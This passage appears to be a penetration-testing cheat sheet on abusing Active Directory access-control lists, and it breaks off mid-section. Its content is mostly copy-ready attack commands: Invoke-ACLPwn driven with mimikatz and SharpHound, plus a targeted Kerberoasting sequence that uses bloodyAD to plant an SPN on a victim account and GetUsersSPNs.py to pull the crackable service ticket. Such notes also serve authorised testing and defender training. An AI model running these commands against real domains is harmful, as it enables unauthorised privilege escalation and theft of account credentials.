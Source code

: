 # Active Directory - Access Controls ACL/ACE

* ACL: Access Control Lists
* ACE: Access Control Entry

* Check ACL for an User with [ADACLScanner](https://github.com/canix1/ADACLScanner).
```ps1
ADACLScan.ps1 -Base "DC=contoso;DC=com" -Filter "(&(AdminCount=1))" -Scope subtree -EffectiveRightsPrincipal User1 -Output HTML -Show
```

* Automate ACL exploit [Invoke-ACLPwn](https://github.com/fox-it/Invoke-ACLPwn):
```ps1
./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -Username 'user1' -Domain 'domain.local' -Password 'Welcome01!'
```

## GenericAll/GenericWrite
### User/Computer
* We can set a **SPN** on a target account, request a Service Ticket (ST), then grab its hash and kerberoast it.
	* Windows/Linux
		```ps1
		# Check for interesting permissions on accounts:
		bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' get writable --otype USER --right WRITE --detail | egrep -i 'distinguishedName|servicePrincipalName'

		# Check if current user has already an SPN setted:
		bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' get object <UserName> --attr serviceprincipalname

		# Force set the SPN on the account: Targeted Kerberoasting
		bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' set object <UserName> serviceprincipalname -v 'ops/whatever1'

		# Grab the ticket
		GetUsersSPNs.py -dc-ip 10.10.10.10 'attack.lab/john.doe:Password123*' -request-user <UserName>

		# Remove the SPN
		bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' set object <UserName> serviceprincipalname
		```
	* Windows only
		```ps1
		# Check for interesting permissions on accounts:
		Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
